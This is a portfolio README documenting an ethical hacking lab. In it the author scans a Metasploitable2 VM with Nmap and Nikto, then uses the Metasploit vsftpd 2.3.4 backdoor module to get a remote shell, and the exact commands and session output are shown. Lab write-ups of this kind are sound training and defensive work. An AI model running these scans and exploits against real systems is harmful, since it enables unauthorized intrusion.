



# Ethical Hacking Lab: Exploiting vsftpd 2.3.4 on Metasploitable2

This project demonstrates a successful ethical hacking lab where I scanned, identified, and exploited a known vulnerability in an intentionally vulnerable virtual machine. The goal was to simulate real-world penetration testing techniques and document the process for recruiters and hiring managers to review.

---

## Lab Setup

| Role            | Machine           | OS/Tool Used     |
|-----------------|-------------------|------------------|
| Attacker        | Kali Linux (VM)   | Kali 2025.1c     |
| Victim          | Metasploitable2   | Linux (Ubuntu)   |
| Virtual Network | Host-Only (VMnet1)| VMware Workstation 17 Player |

---

## Tools Used

- [Kali Linux](https://www.kali.org/)  
- [Metasploitable2](https://sourceforge.net/projects/metasploitable/)  
- [Nmap](https://nmap.org/)
- [Nikto](https://github.com/sullo/nikto)
- [Metasploit Framework](https://www.metasploit.com/)

---

## Reconnaissance and Scanning

### Nmap Scan

Command:
```bash
nmap -sS -sV -O -A <victim-ip>

📌 Notable Results:
Port 21: FTP — vsftpd 2.3.4 (known backdoor vulnerability)

Port 22: OpenSSH 4.7p1 Debian

Port 23: Telnet enabled

Port 25: Exim mail server

Port 80: Apache 2.2.8 (outdated)

Port 3306: MySQL database server

Port 5432: PostgreSQL database server

Port 8180: Apache Tomcat/5.5.20 (default credentials enabled)

Port 139/445: Samba file sharing service

📸 Screenshot:

🔎 Phase 2: Web Vulnerability Scan with Nikto
Command:
bash
nikto -h http://<victim-ip>

📌 Notable Results:
Apache version is outdated (2.2.8)

HTTP TRACE method is enabled (XST vulnerability)

PHP version is outdated (5.2.4-2ubuntu5.10)

/phpinfo.php is exposed (leaks environment variables)

/phpmyadmin and changelogs are exposed

Directory indexing is enabled

CVE-2009-3555 and other known Apache vulnerabilities are present

📸 Screenshot:

💥 Phase 3: Exploitation with Metasploit (vsftpd 2.3.4 Backdoor)
Commands:
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <victim-ip>
set RPORT 21
run

💣 Result:
[*] 192.168.X.X:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.X.X:21 - Exploit completed, but no session was created
[*] 192.168.X.X:21 - Attempting to trigger backdoor...
[*] Command shell session 1 opened

🛠 Post-Exploitation Commands:
bash
whoami
uname -a
hostname
id

📌 Output:

OS: Linux metasploitable 2.6.x

Hostname: metasploitable

Access: Remote shell confirmed

📸 Screenshot:(./screenshots/Image4.png)

🧠 Lessons Learned
How to perform recon using Nmap and Nikto

Identifying and exploiting real vulnerabilities

Gaining shell access using Metasploit

Importance of isolating testing environments

How to document and present offensive security findings

🔒 Disclaimer
This lab was conducted in a secure, offline environment using intentionally vulnerable systems.
Do NOT attempt these techniques on unauthorized or production systems.
This project is for educational and professional development purposes only.

🙋 Author
Crystal Hicks
Information Security Analyst
Linkedin: https://www.linkedin.com/in/crystal-brown333 
